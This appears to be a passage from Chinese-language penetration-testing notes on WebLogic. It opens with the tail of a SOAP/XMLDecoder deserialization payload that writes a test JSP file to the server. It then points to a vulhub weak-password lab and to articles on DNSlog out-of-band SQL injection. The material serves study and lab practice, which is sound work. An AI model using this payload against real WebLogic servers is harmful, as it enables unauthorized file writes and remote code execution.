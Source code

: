 ```xml
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3niax5h0j20rv0idwsa.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3nl7zmboj20ie03ox16.jpg)



## 2.weak_password

环境： <https://github.com/vulhub/vulhub/tree/master/weblogic/weak_password>



## 3.注入实战

[一次sql延时注入之dnslog的利用](https://zhuanlan.zhihu.com/p/23631785)

 [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

 



参考： 

<https://blog.csdn.net/qq_27446553/article/details/78952010>

[OOB](https://www.freebuf.com/articles/database/183997.html)

